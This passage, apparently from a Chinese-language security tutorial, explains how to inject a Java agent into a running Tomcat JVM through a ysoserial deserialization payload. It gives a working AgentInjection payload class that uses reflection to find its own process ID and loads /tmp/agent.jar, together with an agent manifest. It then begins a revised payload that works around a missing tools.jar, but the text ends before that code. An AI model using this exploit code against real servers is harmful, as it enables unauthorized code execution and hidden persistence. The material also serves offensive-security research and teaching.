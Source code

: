   *   *   * 

    
    
    VirtualMachine virtualMachine = VirtualMachine.attach(id);virtualMachine.loadAgent(jarName);virtualMachine.detach();

我们可以使用前面研究过的JNDI注入方法进行注入，也可以利用反序列化，只要能够执行Java代码即可，甚至拿到系统Shell后直接用命令执行`loadAgent`的另一个java程序也可以，只是要上传更多的文件，风险更大

这里方便起见，直接继续使用前面研究的反序列化注入方法进行攻击，我们在`shells`中增加一个新的Payload，代码如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package ysoserial.shells;  
    import com.sun.org.apache.xalan.internal.xsltc.DOM;import com.sun.org.apache.xalan.internal.xsltc.TransletException;import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;import com.sun.org.apache.xml.internal.serializer.SerializationHandler;import com.sun.tools.attach.VirtualMachine;import sun.management.VMManagement;  
    import java.lang.management.ManagementFactory;import java.lang.management.RuntimeMXBean;import java.lang.reflect.Field;import java.lang.reflect.Method;  
    public class AgentInjection extends AbstractTranslet {    static {        try {            // 首先获取进程ID            RuntimeMXBean runtime = ManagementFactory.getRuntimeMXBean();            Field jvm = runtime.getClass().getDeclaredField("jvm");            jvm.setAccessible(true);            VMManagement mgmt = (VMManagement) jvm.get(runtime);            Method pidMethod = mgmt.getClass().getDeclaredMethod("getProcessId");            pidMethod.setAccessible(true);            // attach到当前JVM            VirtualMachine virtualMachine = VirtualMachine.attach(String.valueOf(pidMethod.invoke(mgmt)));            // 加载agent，可以从远程下载再load，这里直接从本地load了            virtualMachine.loadAgent("/tmp/agent.jar");            virtualMachine.detach();        }catch (Exception e){        }    }  
        @Override    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {  
        }  
        @Override    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {  
        }}

在`src/main/resources/`目录下创建`META-INF/MANIFEST.MF`，内容如下

  *   *   * 

    
    
    Manifest-Version: 1.0Agent-Class: AgentCan-Retransform-Classes: true

打包成`.jar`，发送序列化数据，结果遇到异常

![](https://gitee.com/fuli009/images/raw/master/public/20220216084008.png)

可以发现依赖于`tools.jar`，这个包对于Tomcat来说并不会自动加载，为了让攻击奏效，我们可以通过`JAVA_HOME`路径手动加载类型，通过反射执行相关函数

修改后的Payload代码如下

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
